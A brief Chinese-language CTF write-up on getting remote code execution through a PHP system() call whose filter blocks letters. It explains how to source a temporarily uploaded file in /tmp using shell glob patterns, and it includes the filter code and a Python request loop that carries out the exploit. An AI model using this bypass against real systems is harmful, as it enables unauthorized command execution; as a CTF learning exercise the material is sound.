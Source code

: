 tags:: CTF/RCE

- # WP
  
  题目会执行参数c，但是参数c不能包含任何字母
  
  ```php
  if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
  system($c);
  } 
  ```
  
  注意到PHP的一个特性：上传文件时，PHP会将文件暂存在`/tmp`中，文件名为`php??????`(问号为大小写字母)
  
  *nix shell 可以用[glob](https://man7.org/linux/man-pages/man7/glob.7.html)匹配文件
  
  > 其中可以用`[@-[]`代表大写字母，`[_-{]`代表小写字母(ascii在这个区间的字母)
  
  并且，*nix shell还有一个特性：`.`代表当前shell，也就是说`. ./test.sh`相当于用当前的shell执行`test.sh`
  
  使用这三个特性，我么可以向目标发送并执行恶意文件，实现RCE
  
  ```python
  while True:
    r = requests.post(url, 
        params = {
            "c": ". /???/????????[@-[]"
        },
        files={
            "file":("a.txt", "cat flag.php")
        }
    )
    if r.text:
        break
  
  print(r.text)
  ```
-